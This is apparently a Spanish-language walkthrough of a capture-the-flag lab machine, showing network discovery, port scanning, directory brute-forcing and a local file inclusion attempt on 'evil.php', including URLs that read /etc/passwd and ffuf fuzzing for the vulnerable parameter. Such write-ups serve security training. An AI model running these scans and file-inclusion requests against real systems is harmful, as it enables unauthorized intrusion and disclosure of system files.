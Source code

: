 Primero obtenemos nuestra dirección IP para asi realizar un escaneo en la red para identificar la maquina victima.
```
ifconfig
```

Una ves identificada nuestra IP procedemos a identificar maquinas conectadas en la misma red utilizando "netdiscover".
```
sudo netdiscover -r 192.168.0.0/24
```

Una ves obtenido la IP de la maquina victima, procedemos a listar los puertos y servicios expuestos:
- 192.168.0.40    08:00:27:97:79:63      1      60  PCS Systemtechnik GmbH
Utilizando "nmap" podemos descubrir puertos y servicios.
```
sudo nmap -sV -sC 192.168.0.40
```

Descubrimos 2 puertos abiertos el 22 y 80 el cual nos indica que el puerto 22 esta corriendo un servicio ssh y el puerto 80 esta corriendo un servicio web con apache:
- 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Revisamos si contiene alguna paguina web y solo nos muestra el banner de apache:
- http://192.168.0.40/
- ![web1](imagenes/web1.png)

Vamos a realizar una enumeraciòn de directorio usando "dirb" o "dirsearch" para descubrir directores del servicio, con "dirsearch" descubrimos un archivio "robots.txt" y un directorio "secret":
- http://192.168.0.40/robots.txt
- http://192.168.0.40/secret/
```
sudo dirsearch -u http://192.168.0.40/
```

Revisando la url apuntando a robots.txt nos muestra una paguina con un mensaje " Hello H4x0r ", revisamos còdigo fuente y no se encontro nada màs:
- ![robots](imagenes/robots.png)
Y revisando el directorio "secret" no encontramos nada:
- ![secret](imagenes/secret.png)

Recordando que con "dirsearch" nos mostraba un cambio de directorio en secret
- [10:40:36] 301 -  313B  - /secret  ->  http://192.168.0.40/secret/
Por lo que cuando accedes a "/secret" te redirige a "/secret/", a lo cual se cambio de herramienta de enumeraciòn de directorio a "gobuster" ya que "dirsearch" no nos mostro mas informaciòn.

Con "gobuster" buscamos archivos que esten en el directorio "secret/":
```
gobuster dir -u http://192.168.0.40/secret/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php
```
El cual nos muestra un archivo php llamado "evil.php"
- /evil.php             (Status: 200) [Size: 0]

Buscando su còdigo fuente vemos que no contiene nada por lo que intentamos navegar "/etc/passwd" con el LFI(Local File Inclusion) para descubrir màs informaciòn.
utilizando "evil" como query para la busqueda en la url vemos que no funciona eh incluso "file":
- http://192.168.0.40/secret/evil.php?evil=/etc/passwd
Por lo que nos toca realizar un fuzzing para descubrir si podemos obtener el nombre para el parametro de la query utilizando "ffuf":
```
ffuf -u "http://192.168.0.40/secret/evil.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -r -fs 0
```
Nos muestra que la palabra es "command"
- command                 [Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 15ms]
